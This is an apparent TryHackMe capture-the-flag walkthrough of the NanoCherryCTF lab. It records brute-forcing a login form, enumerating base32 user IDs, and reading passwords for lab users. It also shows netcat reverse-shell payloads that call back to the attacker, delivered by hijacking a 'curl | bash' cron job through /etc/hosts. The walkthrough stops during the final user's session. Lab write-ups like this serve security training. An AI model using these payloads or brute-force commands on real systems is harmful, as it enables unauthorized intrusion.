


# TryHackMe-NanoCherryCTF

**Scope:**

- SSTV Decoding

**Keywords:**

- Username Brute Force
- Password Brute Force
- API
- Subdomain Enumeration
- DNS Manipulation
- Crontab Analysis
- Base32
- audacity
- sstv
- SSTV Decoding

**Main Commands:**

- `nmap -sS -sV -sC -T4 -A -O -F -oN nmap_result.txt -Pn $target_ip`
- `wfuzz -u 'http://cherryontop.thm' -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H 'Host: FUZZ.cherryontop.thm' -c -t 50 --hc 404,403,500,501,502,503 --hh 13968`
- `curl --path-as-is -ikL -X 'POST' --data-binary $'username=admin&password=admin&submit=' $'http://nano.cherryontop.thm/login.php' -b $'PHPSESSID=n5clq5n0uo5dmt2jh4sr06suif'`
- `ffuf -u 'http://nano.cherryontop.thm/login.php' -X POST -d 'username=FUZZ&password=admin&submit=' -H 'Content-Type: application/x-www-form-urlencoded' -w /usr/share/seclists/Usernames/top-usernames-shortlist.txt -mc all -t 100 -fr "This user doesn't exist"`
- `hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -p admin nano.cherryontop.thm http-post-form "/login.php:username=^USER^&password=^PASS^&submit=:This user doesn't exist" -t 64 -F`
- `hydra -l puppet -P /usr/share/seclists/Passwords/cirt-default-passwords.txt nano.cherryontop.thm http-post-form "/login.php:username=^USER^&password=^PASS^&submit=:Bad password" -t 64 -F`
- `ssh -o MACs=hmac-sha2-256 notsus@cherryontop.thm -p 22`
- `mkdir -p home/bob-boba`
- `tree home`
- `msfvenom -p cmd/unix/reverse_netcat lhost=10.2.37.37 lport=11222 R`
- `nano home/bob-boba/coinflip.sh`
- `python3 -m http.server 8000`
- `ssh -o MACs=hmac-sha2-256 molly-milk@cherryontop.thm -p 22`
- `hashid 'I52WK43U'`
- `echo I52WK43U | base32 -d`
- `curl -iLX GET 'http://cherryontop.thm/content.php?facts=1&user=I52WK43U'`
- `ffuf -u 'http://cherryontop.thm/content.php?facts=FUZZ&user=I52WK43U' -w <(seq 1 100) -mc all -fw 754 -ic`
- `for i in $(cat username_clean.txt); do echo -n $i | base32 >> username_base32.txt; done`
- `ffuf -u 'http://cherryontop.thm/content.php?facts=IDNUMBER&user=USER' -w <(seq 1 100):IDNUMBER -w username_base32.txt:USER -fr "Error" -mc all -t 100 -fw 754 -fs 2499,2519,2514,2523,2479,2498,2487,2486`
- `ssh -o MACs=hmac-sha2-256 sam-sprinkles@cherryontop.thm -p 22`
- `crackmapexec ssh cherryontop.thm -u 'chad-cherry' -p found_passwords.txt --port 22 -x 'whoami'`
- `ssh -o MACs=hmac-sha2-256 chad-cherry@cherryontop.thm -p 22`
- `scp -o MACs=hmac-sha2-256 chad-cherry@cherryontop.thm:rootPassword.wav /root/Desktop/CyberLearningFramework/nanocherryctf/rootPassword.wav`
- `audacity rootPassword.wav`
- `sstv -d rootPassword.wav -o rootPassword.png`

**System Commands:**

- `su root`
- `file rootPassword.wav`
- `python3 -c 'import pty;pty.spawn("/bin/bash")'`
- `export TERM=xterm`

### Laboratory Environment

[TryHackMe | Cyber Security Training](https://tryhackme.com/r/room/nanocherryctf)

> **Laboratory Requirements**
> 

```bash
Jex has set up a backdoor account for you to use to get started.

Username: notsus
Password: dontbeascriptkiddie

10.10.122.205   cherryontop.thm
```

### Penetration Approaches and Commands

> **Network Enumeration Phase**
> 

`nmap -sS -sV -sC -T4 -A -O -F -oN nmap_result.txt -Pn $target_ip`

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 9e:e6:fd:19:23:a3:b1:40:77:1c:a4:c4:2f:e6:d3:4b (ECDSA)
|_  256 15:2b:23:73:3f:c8:8a:a3:b4:aa:1d:ae:70:d4:5f:ae (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Cherry on Top Ice Cream Shop
```

> **HTTP Port Check**
> 

`curl -iLX GET -D response.txt http://cherryontop.thm`

```bash
HTTP/1.1 200 OK
Date: Fri, 11 Oct 2024 13:20:01 GMT
Server: Apache/2.4.52 (Ubuntu)
Vary: Accept-Encoding
Transfer-Encoding: chunked
Content-Type: text/html; charset=UTF-8

[REDACTED] - MORE

            <div class="collapse navbar-collapse" id="navbarSupportedContent">
                <ul class="navbar-nav ml-auto">
                    <li class="nav-item">
                        <a class="nav-link" href="#home">Home</a>
                    </li>
                    <li class="nav-item">
                        <a class="nav-link" href="#about">About</a>
                    </li>
                    <li class="nav-item">
                        <a class="nav-link" href="#portfolio">Portfolio</a>
                    </li>
                    <li class="nav-item">
                        <a class="nav-link" href="#team">Team</a>
                    </li>
                    <li class="nav-item">
                        <a class="nav-link" href="#testimonial">Testimonial</a>
                    </li>
                    <li class="nav-item">
                        <a class="nav-link" href="content.php">Ice Cream Facts</a>

[REDACTED] - MORE
```

> **Subdomain Scan & Endpoint Control**
> 

`curl -iLX GET -D responsecontentphp.txt http://cherryontop.thm/content.php`

```bash
HTTP/1.1 200 OK
Date: Fri, 11 Oct 2024 13:22:54 GMT
Server: Apache/2.4.52 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 2462
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html>
  <head>
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <title>Content Page</title>
    <link rel="stylesheet" href="themify-icons/css/themify-icons.css">
    <link rel="stylesheet" href="css/style.css">
</head>
<body id="content">
    
    <!-- Page Navigation -->
    <nav class="navbar custom-navbar navbar-expand-lg" id="nav-content" data-spy="affix" data-offset-top="20">
        <div class="container">
            <a class="navbar-brand" href="#">
                
            </a>
            <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarSupportedContent" aria-controls="navbarSupportedContent" aria-expanded="false" aria-label="Toggle navigation">
                <span></span>
            </button>

            <div class="collapse navbar-collapse" id="navbarSupportedContent">
                <ul class="navbar-nav ml-auto">
                    <li class="nav-item">
                        <a class="nav-link" href="index.php">Go Back</a>
                    </li>
                </ul>
            </div>
        </div>
    </nav>

    <div class="container">
        <div class="row align-items-center facts">
            <div class="col-md-7 col-lg-8">
                <form method="get" action="content.php">
                    <h1><label for="facts">Learn about Ice Cream</label></h1>
                    <label>Choose a fact!</label>
                    <select name="facts" id="facts">
                        <option value="1">Fact 1</option>
                        <option value="2">Fact 2</option>
                        <option value="3">Fact 3</option>
                        <option value="4">Fact 4</option>
                    </select>
                    <br>
                    <label for="user">Who are you?</label>
                    <select name="user" id="facts">
                        <option value="I52WK43U">Guest</option>
                    </select>
                    <input type="submit" value="Submit">
                </form>

                Error             </div>
        </div>
    </div>

    <!-- scripts -->
    <script src="jquery/jquery-3.4.1.js"></script>
    <script src="bootstrap/bootstrap.bundle.js"></script>
    <script src="bootstrap/bootstrap.affix.js"></script>
    <script src="js/script.js"></script>
</body>
```

`wfuzz -u 'http://cherryontop.thm' -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H 'Host: FUZZ.cherryontop.thm' -c -t 50 --hc 404,403,500,501,502,503 --hh 13968`

```bash
000002046:   200        219 L    650 W      10718 Ch    "nano"
```

`nano /etc/hosts`

```bash
10.10.122.205   cherryontop.thm nano.cherryontop.thm
```

`curl -iLX GET -D nanoresponse.txt http://nano.cherryontop.thm`

```bash
[REDACTED] - MORE

            <div class="collapse navbar-collapse" id="navbarSupportedContent">
                <ul class="navbar-nav ml-auto">
                    <li class="nav-item">
                        <a class="nav-link" href="#home">Home</a>
                    </li>
                    <li class="nav-item">
                        <a class="nav-link" href="#about">About</a>
                    </li>
                    <li class="nav-item">
                        <a class="nav-link" href="#team">Team</a>
                    </li>
                    <li class="nav-item">
                        <a class="nav-link" href="#testimonial">Testimonial</a>
                    </li>
                    <li class="nav-item">
                        <a class="nav-link" href="login.php">Admin</a>
                    </li>
                    
[REDACTED] - MORE
```

`curl -iLX GET -D nanoresponse.txt http://nano.cherryontop.thm/login.php`

```bash
HTTP/1.1 200 OK
Date: Fri, 11 Oct 2024 13:38:38 GMT
Server: Apache/2.4.52 (Ubuntu)
Set-Cookie: PHPSESSID=n5clq5n0uo5dmt2jh4sr06suif; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 2310
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <title>Admin Portal</title>
    <link rel="stylesheet" href="themify-icons/css/themify-icons.css">
    <link rel="stylesheet" href="css/style.css">
</head>
<body id="content">

    
    <!-- Page Navigation -->
    <nav class="navbar custom-navbar navbar-expand-lg" id="nav-content" data-spy="affix" data-offset-top="20">
        <div class="container">
            <a class="navbar-brand" href="#">
                
            </a>
            <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarSupportedContent" aria-controls="navbarSupportedContent" aria-expanded="false" aria-label="Toggle navigation">
                <span></span>
            </button>

            <div class="collapse navbar-collapse" id="navbarSupportedContent">
                <ul class="navbar-nav ml-auto">
                    <li class="nav-item">
                        <a class="nav-link" href="index.php">Go Back</a>
                    </li>
                </ul>
            </div>
        </div>
    </nav>
    <div class="container">
        <div class="row align-items-center login">
            <div class="col-md-7 col-lg-8">
                <h1>Admin Portal</h1>
                                <form method="post">
                    <div>
                        <label for="username">Username:</label>
                        <input type="text" id="username" name="username" required>
                    </div>
                    <div>
                        <label for="password">Password:</label>
                        <input type="password" id="password" name="password" required>
                    </div>
                    <div>
                        <button type="submit" name="submit" style="padding:5px; margin-top: 5px;">Login</button>
                    </div>
                </form>
            </div>
        </div>
    </div>

    <!-- scripts -->
    <script src="jquery/jquery-3.4.1.js"></script>
    <script src="bootstrap/bootstrap.bundle.js"></script>
    <script src="bootstrap/bootstrap.affix.js"></script>
    <script src="js/script.js"></script>
</body>
</html>
```




`curl --path-as-is -ikL -X 'POST' --data-binary $'username=admin&password=admin&submit=' $'http://nano.cherryontop.thm/login.php' -b $'PHPSESSID=n5clq5n0uo5dmt2jh4sr06suif'`

```bash
[REDACTED] - MORE
                
                <h1>Admin Portal</h1>
                                    <div>This user doesn't exist</div>
                                <form method="post">
                    <div>
                        <label for="username">Username:</label>
                        <input type="text" id="username" name="username" required>
                    </div>
                    <div>
                        <label for="password">Password:</label>
                        <input type="password" id="password" name="password" required>
                    </div>
                    <div>
                        <button type="submit" name="submit" style="padding:5px; margin-top: 5px;">Login</button>
                    </div>
                    
[REDACTED] - MORE
```

> **Login Username Brute Force Phase**
> 

`ffuf -u 'http://nano.cherryontop.thm/login.php' -X POST -d 'username=FUZZ&password=admin&submit=' -H 'Content-Type: application/x-www-form-urlencoded' -w /usr/share/seclists/Usernames/top-usernames-shortlist.txt -mc all -t 100 -fr "This user doesn't exist"`

```bash
puppet                  [Status: 200, Size: 2370, Words: 733, Lines: 61, Duration: 1809ms]
```

`hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -p admin nano.cherryontop.thm http-post-form "/login.php:username=^USER^&password=^PASS^&submit=:This user doesn't exist" -t 64 -F`

```bash
[80][http-post-form] host: nano.cherryontop.thm   login: puppet   password: admin
```

> **Login Logic Discovery**
> 


> **Login Password Brute Force**
> 

`hydra -l puppet -P /usr/share/seclists/Passwords/cirt-default-passwords.txt nano.cherryontop.thm http-post-form "/login.php:username=^USER^&password=^PASS^&submit=:Bad password" -t 64 -F`

```bash
[80][http-post-form] host: nano.cherryontop.thm   login: puppet   password: master
```

> **Login Phase**
> 


`curl --path-as-is -iskL -X $'POST' -H $'Content-Type: application/x-www-form-urlencoded' -b $'PHPSESSID=gvmv3lje951sbhsr4ku4ceufdv' --data-binary $'username=puppet&password=master&submit=' $'http://nano.cherryontop.thm/login.php'`

```bash
HTTP/1.1 302 Found
Date: Fri, 11 Oct 2024 13:58:40 GMT
Server: Apache/2.4.52 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: command.php
Content-Length: 333
Content-Type: text/html; charset=UTF-8

HTTP/1.1 200 OK
Date: Fri, 11 Oct 2024 13:58:40 GMT
Server: Apache/2.4.52 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 6226
Content-Type: text/html; charset=UTF-8

[REDACTED] - MORE

<h5 class="card-title">Jex</h5>
<p>Oh I'm SoOoOoOO SCAARED! What a loser, can't even use a greenscreen correctly!</p>
<p>I know he tried to get ahold of my ssh password <i>ChadCherrysFutureWife</i> through social engineering but I outsmarted him and his hacker friends once again by hanging up the phone!</p>
<p>Good thing they won't ever figure it out!
<i>Debt owed: <b>Why would he borrow money from us??</b></i>

[REDACTED] - MORE

    
</body>
</html>
```

> **SSH Connection with Given Credentials & Internal Logic Phase**
> 

`ssh -o MACs=hmac-sha2-256 notsus@cherryontop.thm -p 22`

```bash
notsus@cherryontop.thm's password: 

$ whoami
notsus
$ id
uid=1004(notsus) gid=1004(notsus) groups=1004(notsus)
$ pwd
/home/.notsus

$ uname -a
Linux nanocherryctf 5.15.0-102-generic #112-Ubuntu SMP Tue Mar 5 16:50:32 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
$ dpkg --version
Debian 'dpkg' package management program version 1.21.1 (amd64).
This is free software; see the GNU General Public License version 2 or
later for copying conditions. There is NO warranty.

$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
# You can also override PATH, but by default, newer versions inherit it from the environment
#PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   bob-boba curl cherryontop.tld:8000/home/bob-boba/coinflip.sh | bash

$ cat /etc/passwd | grep 'sh$'
root:x:0:0:root:/root:/bin/bash
chad-cherry:x:1000:1000:Chad Cherry:/home/chad-cherry:/bin/bash
molly-milk:x:1001:1001::/home/molly-milk:/bin/sh
sam-sprinkles:x:1002:1002::/home/sam-sprinkles:/bin/sh
bob-boba:x:1003:1003::/home/bob-boba:/bin/sh
notsus:x:1004:1004::/home/.notsus:/bin/sh

$ cat /home/bob-boba/coinflip.sh
cat: /home/bob-boba/coinflip.sh: Permission denied

$ cat /etc/hosts
127.0.0.1 localhost
127.0.0.1 cherryontop.com
127.0.0.1 cherryontop.thm
127.0.0.1 nano.cherryontop.thm
127.0.1.1 nanocherryctf

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

$ cat youFoundIt.txt
Hey good work hacker. Glad you made it this far!

From here, we should be able to hit Bob-Boba where it hurts! Could you find a way to escalate your privileges vertically to access his account?

Keep your's eyes peeled and don't be a script kiddie!

- Jex

$ 
```

> **Local DNS Manipulation & Reverse Shell Phase**
> 

`mkdir -p home/bob-boba`

`tree home`

```bash
home
`-- bob-boba
```

`msfvenom -p cmd/unix/reverse_netcat lhost=10.2.37.37 lport=11222 R`

```bash
mkfifo /tmp/dvjcz; nc 10.2.37.37 11222 0</tmp/dvjcz | /bin/sh >/tmp/dvjcz 2>&1; rm /tmp/dvjcz
```

**ANOTHER PAYLOAD TYPE:**

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.37.37 11222 >/tmp/f
```

`nano home/bob-boba/coinflip.sh`

```bash
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.37.37 11222 >/tmp/f
```

`nc -nlvp 11222`

```bash
listening on [any] 11222 ...
```

`python3 -m http.server 8000`

```bash
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```bash
$ echo '10.2.37.37 cherryontop.tld' >> /etc/hosts
$ cat /etc/hosts 
127.0.0.1 localhost
127.0.0.1 cherryontop.com
127.0.0.1 cherryontop.thm
127.0.0.1 nano.cherryontop.thm
127.0.1.1 nanocherryctf

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
10.2.37.37 cherryontop.tld
$ 
```

```bash
listening on [any] 11222 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.122.205] 35786
/bin/sh: 0: can't access tty; job control turned off
$ whoami
bob-boba
$ id
uid=1003(bob-boba) gid=1003(bob-boba) groups=1003(bob-boba)
$ pwd
/home/bob-boba
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
bob-boba@nanocherryctf:~$ export TERM=xterm

bob-boba@nanocherryctf:~$ ls
ls
bobLog.txt  chads-key3.txt  coinflip.sh
bob-boba@nanocherryctf:~$ cat bobLog.txt
cat bobLog.txt
Bob Log

4/10/20XX

One of the funniest parts of working for Chad is both how much debt we have and how much other people owe us!

I know that Chad uses me as both his accountant and debt collector, but really, we need to hire more henchmen.

Perhaps we can convince the Arch Linux users to join our cause... Hopefully none of them like Vim, after all, Chad intends to eliminate every trace of the text editor and replace it with Nano.

Either way, I gotta really protect this password segment Chad gave me in case of emergencies!

Bob

bob-boba@nanocherryctf:~$ cat chads-key3.txt
cat chads-key3.txt
7h3fu7ur3

bob-boba@nanocherryctf:~$ cat /etc/passwd | grep '/bin/bash'
root:x:0:0:root:/root:/bin/bash
chad-cherry:x:1000:1000:Chad Cherry:/home/chad-cherry:/bin/bash

bob-boba@nanocherryctf:~$ cat /etc/passwd | grep '/bin/sh'
molly-milk:x:1001:1001::/home/molly-milk:/bin/sh
sam-sprinkles:x:1002:1002::/home/sam-sprinkles:/bin/sh
bob-boba:x:1003:1003::/home/bob-boba:/bin/sh
notsus:x:1004:1004::/home/.notsus:/bin/sh

bob-boba@nanocherryctf:~$

```

> **SSH Connection for Other User**
> 

`ssh -o MACs=hmac-sha2-256 molly-milk@cherryontop.thm -p 22`

```bash
molly-milk@cherryontop.thm's password: ChadCherrysFutureWife
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-102-generic x86_64)

$ whoami
molly-milk
$ id
uid=1001(molly-milk) gid=1001(molly-milk) groups=1001(molly-milk)
$ pwd
/home/molly-milk

$ python3 -c 'import pty;pty.spawn("/bin/bash")'
molly-milk@nanocherryctf:~$ export TERM=xterm

molly-milk@nanocherryctf:~$ ls
DONTLOOKCHAD.txt  chads-key1.txt
molly-milk@nanocherryctf:~$ cat chads-key1.txt
n4n0ch3rry
molly-milk@nanocherryctf:~$ cat DONTLOOKCHAD.txt
Dear Chad,

Cherries, Ice Cream, and Milk,
In the bowl of life, we mix and swirl,
Like cherries, ice cream, and milk's swirl.
Cherries so red, plucked from the tree,
Sweet as your love, pure as can be.
Ice cream so smooth, so cool and white,
Melts in my mouth, with sheer delight.
Milk so pure, so creamy and rich,
The base of our love, the perfect mix.
Together they blend, in perfect harmony,
Like you and I, so sweet, so free.
With each bite, my heart takes flight,
As our love grows, so strong, so bright.
Cherries, ice cream, and milk,
Our love's ingredients, so smooth and silk.
Forever and always, our love will stay,
Like the sweet taste, that never fades away.

Love,
Molly

P.S. I'll hold on tight to that first part of your password you gave me! If anything ever happens to you, we'll all be sure to keep your dream of erasing vim off of all systems alive!
molly-milk@nanocherryctf:~$ 
```

> **User Enumeration with Site Logic & Brute Force Phase**
> 

`curl -iLX get http://cherryontop.thm/content.php`

```bash
HTTP/1.1 200 OK
Date: Fri, 11 Oct 2024 14:31:35 GMT
Server: Apache/2.4.52 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 2462
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html>
  <head>
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <title>Content Page</title>
    <link rel="stylesheet" href="themify-icons/css/themify-icons.css">
    <link rel="stylesheet" href="css/style.css">
</head>
<body id="content">
    
    <!-- Page Navigation -->
    <nav class="navbar custom-navbar navbar-expand-lg" id="nav-content" data-spy="affix" data-offset-top="20">
        <div class="container">
            <a class="navbar-brand" href="#">
                
            </a>
            <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarSupportedContent" aria-controls="navbarSupportedContent" aria-expanded="false" aria-label="Toggle navigation">
                <span></span>
            </button>

            <div class="collapse navbar-collapse" id="navbarSupportedContent">
                <ul class="navbar-nav ml-auto">
                    <li class="nav-item">
                        <a class="nav-link" href="index.php">Go Back</a>
                    </li>
                </ul>
            </div>
        </div>
    </nav>

    <div class="container">
        <div class="row align-items-center facts">
            <div class="col-md-7 col-lg-8">
                <form method="get" action="content.php">
                    <h1><label for="facts">Learn about Ice Cream</label></h1>
                    <label>Choose a fact!</label>
                    <select name="facts" id="facts">
                        <option value="1">Fact 1</option>
                        <option value="2">Fact 2</option>
                        <option value="3">Fact 3</option>
                        <option value="4">Fact 4</option>
                    </select>
                    <br>
                    <label for="user">Who are you?</label>
                    <select name="user" id="facts">
                        <option value="I52WK43U">Guest</option>
                    </select>
                    <input type="submit" value="Submit">
                </form>

                Error             </div>
        </div>
    </div>

    <!-- scripts -->
    <script src="jquery/jquery-3.4.1.js"></script>
    <script src="bootstrap/bootstrap.bundle.js"></script>
    <script src="bootstrap/bootstrap.affix.js"></script>
    <script src="js/script.js"></script>
</body>  
```

`hashid 'I52WK43U'`

```bash
Analyzing 'I52WK43U'
[+] Dahua 
```

`echo I52WK43U | base32 -d`

```bash
Guest
```

`curl -iLX GET 'http://cherryontop.thm/content.php?facts=1&user=I52WK43U'`

```bash
HTTP/1.1 200 OK
Date: Fri, 11 Oct 2024 14:34:13 GMT
Server: Apache/2.4.52 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 2499
Content-Type: text/html; charset=UTF-8

[REDACTED] - MORE
```

`ffuf -u 'http://cherryontop.thm/content.php?facts=FUZZ&user=I52WK43U' -w <(seq 1 100) -mc all -fw 754 -ic`

```bash
4                       [Status: 200, Size: 2523, Words: 761, Lines: 63, Duration: 352ms]
3                       [Status: 200, Size: 2514, Words: 762, Lines: 63, Duration: 353ms]
43                      [Status: 200, Size: 2498, Words: 759, Lines: 63, Duration: 319ms]
50                      [Status: 200, Size: 2487, Words: 757, Lines: 63, Duration: 323ms]
64                      [Status: 200, Size: 2486, Words: 757, Lines: 63, Duration: 317ms]
2                       [Status: 200, Size: 2519, Words: 762, Lines: 63, Duration: 2823ms]
1                       [Status: 200, Size: 2499, Words: 759, Lines: 63, Duration: 2823ms]
20                      [Status: 200, Size: 2479, Words: 755, Lines: 63, Duration: 4839ms]

```

`nano username_clean.txt`

```bash
root
chad-cherry
molly-milk
sam-sprinkles
bob-boba
notsus
Admin
```

`for i in $(cat username_clean.txt); do echo -n $i | base32 >> username_base32.txt; done`

```bash
OJXW65A=
MNUGCZBNMNUGK4TSPE======
NVXWY3DZFVWWS3DL
ONQW2LLTOBZGS3TLNRSXG===
MJXWELLCN5RGC===
NZXXI43VOM======
IFSG22LO
```

`ffuf -u 'http://cherryontop.thm/content.php?facts=IDNUMBER&user=USER' -w <(seq 1 100):IDNUMBER -w username_base32.txt:USER -fr "Error" -mc all -t 100 -fw 754 -fs 2499,2519,2514,2523,2479,2498,2487,2486`

```bash
[Status: 200, Size: 2531, Words: 765, Lines: 63, Duration: 317ms]
    * IDNUMBER: 64
    * USER: MNUGCZBNMNUGK4TSPE======

[Status: 200, Size: 2572, Words: 771, Lines: 63, Duration: 318ms]
    * IDNUMBER: 50
    * USER: NVXWY3DZFVWWS3DL

[Status: 200, Size: 2558, Words: 764, Lines: 63, Duration: 322ms]
    * IDNUMBER: 43
    * USER: ONQW2LLTOBZGS3TLNRSXG===

[Status: 200, Size: 2558, Words: 769, Lines: 63, Duration: 318ms]
    * IDNUMBER: 20
    * USER: MJXWELLCN5RGC===

[Status: 200, Size: 2558, Words: 764, Lines: 63, Duration: 318ms]
    * IDNUMBER: 43
    * USER: IFSG22LO
```

`echo 'ONQW2LLTOBZGS3TLNRSXG===' | base32 -d`

```bash
sam-sprinkles
```

`curl -iLX GET 'http://cherryontop.thm/content.php?facts=43&user=ONQW2LLTOBZGS3TLNRSXG==='`

```bash
[REDACTED] - MORE

<b>My secret web hideout in case I forget my ssh credentials again<br>sam-sprinkles:SammyInMiami43</b>            </div>

[REDACTED] - MORE
```

> **SSH Connection for Other User**
> 

`ssh -o MACs=hmac-sha2-256 sam-sprinkles@cherryontop.thm -p 22`

```bash
sam-sprinkles@cherryontop.thm's password: SammyInMiami43

Last login: Fri Jan  5 23:31:43 2024 from 10.0.2.15
$ whoami
sam-sprinkles
$ id
uid=1002(sam-sprinkles) gid=1002(sam-sprinkles) groups=1002(sam-sprinkles)
$ pwd
/home/sam-sprinkles
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
sam-sprinkles@nanocherryctf:~$ export TERM=xterm
sam-sprinkles@nanocherryctf:~$ ls
 chads-key2.txt  'whyChadWhy??.txt'
 
sam-sprinkles@nanocherryctf:~$ cat chads-key2.txt
w1llb3
sam-sprinkles@nanocherryctf:~$ cat 'whyChadWhy??.txt'
Dude Chad! I thought we were bros!

I don't know if you'll ever read this, but ever since Molly joined the company, you've changed!

We had such a bromance going on and now you're letting her dig her nails into you!

I know you said you're not that into her, but I see how you tool look at eachother! It was always get paid before milk maids!

But I guess you've fallen for a milk maid now! I'm worried about you man...

Either way, I'll keep your secret password segment nice and hidden.

I hope we can hangout again soon.

Your friend,

Sam
sam-sprinkles@nanocherryctf:~$ 
```

> **Password Brute Force for Other User**
> 

`nano found_passwords.txt`

```bash
n4n0ch3rry
w1llb3
7h3fu7ur3
n4n0ch3rryw1llb37h3fu7ur3
```

`crackmapexec ssh cherryontop.thm -u 'chad-cherry' -p found_passwords.txt --port 22 -x 'whoami'`

```bash
SSH         cherryontop.thm 22     cherryontop.thm  [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.6
SSH         cherryontop.thm 22     cherryontop.thm  [-] chad-cherry:n4n0ch3rry Authentication failed.
SSH         cherryontop.thm 22     cherryontop.thm  [-] chad-cherry:w1llb3 Authentication failed.
SSH         cherryontop.thm 22     cherryontop.thm  [-] chad-cherry:7h3fu7ur3 Authentication failed.
SSH         cherryontop.thm 22     cherryontop.thm  [+] chad-cherry:n4n0ch3rryw1llb37h3fu7ur3 
SSH         cherryontop.thm 22     cherryontop.thm  [+] Executed command
SSH         cherryontop.thm 22     cherryontop.thm  chad-cherry
```

> **SSH Connection for Other User**
> 

`ssh -o MACs=hmac-sha2-256 chad-cherry@cherryontop.thm -p 22`

```bash
chad-cherry@cherryontop.thm's password: n4n0ch3rryw1llb37h3fu7ur3

chad-cherry@nanocherryctf:~$ whoami
chad-cherry
chad-cherry@nanocherryctf:~$ id
